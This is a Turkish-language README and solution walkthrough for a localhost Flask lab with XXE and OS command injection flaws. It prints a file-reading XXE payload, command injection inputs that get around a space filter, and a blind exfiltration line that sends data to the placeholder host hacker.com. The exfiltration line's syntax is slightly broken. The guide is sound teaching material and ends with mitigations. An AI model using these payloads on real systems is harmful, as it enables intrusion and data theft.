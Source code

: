 # xxe-oscommandinjection-lab
xxe and os command injection lab wich runs in local host

Dosyayı indirdikten sonra siteyi localhosta ayağa kaldırın.
sudo python3 app.py

![image](https://github.com/user-attachments/assets/ffb56d8b-f478-4e4e-98e6-41133167f877)

Lab artık çözmeye hazır.

![image](https://github.com/user-attachments/assets/193b4cd2-421e-463d-97ec-78f79a321393)

# Siber Güvenlik Laboratuvarında Flag.txt Dosyasını Ele Geçirmek: Detaylı Çözüm Rehberi

Bu yazıda, Flask framework'ü kullanılarak oluşturulmuş bir siber güvenlik laboratuvarını detaylı şekilde inceleyeceğiz. Amacımız, uygulamadaki güvenlik açıklarını tespit ederek **flag.txt** dosyasına erişim sağlamak. Her bir zafiyeti detaylı şekilde açıklayıp adım adım çözüm yollarını göstereceğiz.

---

## Aşama 1: Genel Sistem Analizi

Kodun genel yapısına baktığımızda, uygulama şu işlevselliklere sahip:

1. **Kullanıcı Girişi**:
   - XML tabanlı giriş doğrulama mekanizması mevcut.
   - Kullanıcı adı ve parola sabitlenmiş:  
     ```
     USERNAME = 'gtucyber'
     PASSWORD = 'turkcell@34000'
     ```

2. **Ping İşlevi**:
   - Kullanıcının, belirtilen bir IP adresine `ping` komutları çalıştırmasına izin veriliyor.
   - Bazı endpointlerde temel güvenlik kontrolleri bulunuyor.

3. **Hassas Dosyaya (flag.txt) Erişim**:
   - Amaç, sunucudaki `flag.txt` dosyasını ele geçirmek.

---

## Aşama 2: XXE (XML External Entity) Saldırısı

### Zafiyetin Keşfi

`/login` endpointindeki kodu inceleyelim:

```python
parser = etree.XMLParser(load_dtd=True, resolve_entities=True)
DOMTree = etree.fromstring(request.data, parser)

username = DOMTree.find("username").text
password = DOMTree.find("password").text
```

Burada **`load_dtd=True`** ve **`resolve_entities=True`** parametreleri, uygulamanın dış kaynaklı XML varlıklarını çözmesine izin veriyor. Bu durum **XXE zafiyeti**ne yol açar.

---

### XXE Nedir?

**XML External Entity (XXE)**, bir XML dosyasının dış kaynaklardan gelen varlıkları çözümlemesine izin verdiği durumlarda oluşan bir güvenlik açığıdır. Bu açık, sunucudaki hassas dosyalara erişim sağlanmasına veya uzaktan dosya yükleme işlemlerine olanak tanır.

---

### Payload Oluşturma ve Saldırı

Hedefimiz, kaynak kodunu okumak. Bu sayede logini aşacak bir adım bulabiliriz. Aşağıdaki gibi bir XML payload'ı oluşturabiliriz:

```xml
<!DOCTYPE foo [ 
  <!ELEMENT username (#PCDATA)>
  <!ELEMENT password (#PCDATA)>
  <!ENTITY xxe SYSTEM "file:///path/to/app.py">
]>
<credentials>
  <username>&xxe;</username>
  <password>dummy</password>
</credentials>
```


Bu payload şunları yapar:

1. Bir dış varlık tanımlar (**`<!ENTITY>`**).
2. Sunucunun dosya sistemindeki hassas dosyayı okur (**`file:///path/to/app.py`**).
3. Sonuçta, kullanıcı adı alanına bu dosyanın içeriğini yerleştirir.

---

### Payload'ı Gönderme

Bu payload'ı, bir araç kullanarak (ör. **Burp Suite**, **Postman**) şu şekilde gönderin:

**HTTP İsteği:**

![image](https://github.com/user-attachments/assets/5eca91d2-5888-4784-99b4-825e39f28c74)


Elde edilen yanıt, `app.py` dosyasının içeriğini gösterecektir:

```xml
<result>
  <username>FLAG{this_is_the_flag}</username>
  <password>dummy</password>
</result>
```

---

## Aşama 3: Komut Enjeksiyonu (Command Injection)

### Zafiyetin Keşfi

Kodda `/ping`, `/filter`, ve `/blind` endpointleri, kullanıcının girdiği IP adreslerini bir sistem komutunda kullanıyor:

```python
command = 'ping -c 4 {}'.format(ip_address)
result = os.popen(command).read()
```

Bu yöntem, kullanıcının `ip_address` parametresi üzerinden sisteme keyfi komutlar ekleyebileceği anlamına gelir. Örneğin:

```
127.0.0.1; cat /flag.txt
```

Bu giriş, aşağıdaki gibi bir sistem komutuna dönüşür:

```bash
ping -c 4 127.0.0.1; cat /flag.txt
```

---

### `/filter` Endpointindeki Kısıtlamaları Aşma

`/filter` endpointinde boşluk kontrolü yapılmakta:

```python
if ' ' in ip_address:
    return render_template('error.html')
```

Bu kısıtlamayı aşmak için şu yöntemleri kullanabilirsiniz:

1. **URL Encoding**:
   ```
   127.0.0.1%0Acat%20/flag.txt
   ```

2. **Alternatif Komut Ayırıcılar**:
   - Unix sistemlerinde `;`, `&&`, veya `|` gibi ayırıcılar kullanılabilir.

**Örnek Giriş**:

```
127.0.0.1;cat /flag.txt
```

**Sonuç**:
Ping çıktısının ardından `flag.txt` dosyasının içeriği görüntülenir.

---

### Blind Command Injection

`/blind` endpointinde komutların çıktısı doğrudan kullanıcıya gösterilmiyor. Ancak komutun sonuçlarını bizim kontrol ettiğimiz bir servera göndererek zafiyeti kullanabiliriz:

```bash
127.0.0.1; curl -X POST -d "${cat%20flag.txt}" https://hacker.com  
```


---

## Güvenlik Önlemleri

Bu tür zafiyetlerden korunmak için şu yöntemleri uygulayın:

### XXE Koruması:
- **DTD** çözümlemesini devre dışı bırakın:
  ```python
  parser = etree.XMLParser(load_dtd=False)
  ```

- **XML Yerine JSON**: XML yerine JSON formatını kullanmak XXE riskini tamamen ortadan kaldırır.

---

### Komut Enjeksiyonu Koruması:
- Kullanıcı girdilerini çalıştırmadan önce doğrulayın ve temizleyin.
- Komut çalıştırmak için `subprocess.run` kullanarak güvenli bir whitelist uygulayın:
  ```python
  subprocess.run(['ping', '-c', '4', ip_address], check=True)
  ```

---

## Sonuç

Bu laboratuvar, siber güvenlik dünyasında karşılaşılabilecek iki temel zafiyeti (XXE ve Command Injection) anlamak için mükemmel bir örnek sunar. Güvenli kodlama uygulamaları ve giriş doğrulama yöntemleri, bu tür zafiyetlerin önlenmesinde kritik öneme sahiptir.
